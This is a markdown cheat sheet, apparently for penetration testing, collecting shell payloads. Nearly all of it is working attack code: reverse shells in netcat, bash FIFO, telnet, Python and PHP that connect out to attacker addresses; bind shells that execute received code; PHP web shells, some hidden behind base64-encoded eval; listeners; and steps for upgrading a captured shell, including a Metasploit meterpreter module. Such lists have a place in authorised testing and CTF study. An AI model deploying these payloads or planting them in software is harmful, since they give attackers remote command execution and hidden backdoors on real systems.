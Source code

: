 # Shell Cheatsheet

## Reverse Shell

### Shell

```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

Using FIFO (Doesn't work with upgrading?)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Using `telnet` (When no `nc` and no `/dev/tcp` available). Listen with `nc -n -vv -l -p 2222`

```
rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Bind Shell

### Bash

port=4444; if [$# -eq 1]; then port=$1; fi; while true; do nc -lp $port -e /bin/bash;wait; done

### Telnet

Lazy Bind Shell using `telnet`:

Listen with `nc -n -vv -l -p 2222` and don't forget the `&` at the end
```
while true; do sleep 5; rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe; done &
```


### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```

### PHP

Reverse shell using a socket (cmd version)
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Reverse shell using a socket (file version)
```
<?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

## Web Shell

### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Execute system command
```
<?php system(cmd);?>

<?php system("nc -e /bin/sh 10.0.0.1 1234");?>
```

## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)

